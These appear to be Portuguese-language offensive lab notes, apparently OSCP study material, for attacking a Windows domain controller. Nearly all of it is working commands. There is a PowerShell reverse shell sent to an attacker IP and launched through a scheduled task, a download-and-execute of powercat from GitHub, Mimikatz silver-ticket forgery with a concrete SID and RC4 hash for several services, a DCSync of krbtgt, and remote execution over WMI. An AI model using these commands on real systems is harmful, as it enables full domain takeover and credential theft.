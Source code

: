 ```
```
ULTIMA LINHA DO ARQUIVO Invoke-PowerShellTcp2.ps1:
```
Invoke-PowerShellTcp -Reverse -IPAddress 172.31.13.86 -Port 666
```
RODAR A TAREFA AGENDADA:
```
schtasks /RUN /S tech-dc01 /TN "REVERSESHELL"
```
AGUARDAR A CONEXÃO:
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/powercat.ps1")
powercat -l -p 666 -v
```
##### SILVER TICKET MIMIKATZ - GERAR TICKET P SERVICO NO COMPUTADOR ALVO EM QQ MAQUINA (TERMINAL NORMAL): POWERSHELL REMOTING
```
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:tech-dc01.tech.local /service:http /rc4:30e8b803609241d0e6ae3587a932d97a /user:administrator /ptt
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:tech-dc01.tech.local /service:wsman /rc4:30e8b803609241d0e6ae3587a932d97a /user:administrator /ptt
```
ACESSAR O COMPUTADOR REMOTO:
```
enter-pssession -computername tech-dc01.tech.local
```
##### SILVER TICKET MIMIKATZ - GERAR TICKET P SERVICO NO COMPUTADOR ALVO EM QQ MAQUINA (TERMINAL NORMAL): LDAP DCSYNC
```
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:tech-dc01.tech.local /service:ldap /rc4:30e8b803609241d0e6ae3587a932d97a /user:administrator /ptt
```
RODAR O ATAQUE DCSYNC:
```
lsadump::dcsync /user:tech\krbtgt
```
##### SILVER TICKET MIMIKATZ - GERAR TICKET P SERVICO NO COMPUTADOR ALVO EM QQ MAQUINA (TERMINAL NORMAL): WMI COMMAND
```
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:tech-dc01.tech.local /service:host /rc4:30e8b803609241d0e6ae3587a932d97a /user:administrator /ptt
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:tech-dc01.tech.local /service:rpcss /rc4:30e8b803609241d0e6ae3587a932d97a /user:administrator /ptt
```
RODAR COMANDO VIA WMI:
```
Invoke-WmiMethod win32_process -ComputerName tech-dc01.tech.local -name create -argumentlist "cmd.exe /c whoami > c:\fudeu.txt"
```
[SPN](https://adsecurity.org/?page_id=183)

SERVIÇOS:
- HOST, RPCSS - for WMI interactions
- HOST for Schtasks
- LDAP for LDAP including DCsync attack
- HOST, HTTP for WinRM
- HOST, HTTP, WSMAN, RPCSS - for PowerShell Remoting
